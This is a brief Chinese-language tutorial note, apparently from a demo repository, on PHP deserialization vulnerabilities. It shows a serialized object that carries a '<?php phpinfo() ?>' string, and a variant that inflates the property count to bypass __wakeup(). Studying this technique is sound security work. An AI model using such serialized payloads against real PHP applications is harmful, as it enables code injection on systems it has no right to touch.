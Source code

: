 # PHP 反序列化漏洞

**demo01.php** 对一个类进行序列化操作

序列化结果:
```
O:1:"A":1:{s:6:"target";s:18:"<?php phpinfo() ?>";}
``` 
**demo02.php** 接收一个序列化的字符串反序列化 绕过 __wakeup() 方法:

正常传递:

```
O:1:"A":1:{s:6:"target";s:18:"<?php phpinfo() ?>";}
``` 

绕过传递:

```
O:1:"A":2:{s:6:"target";s:18:"<?php phpinfo() ?>";}
```

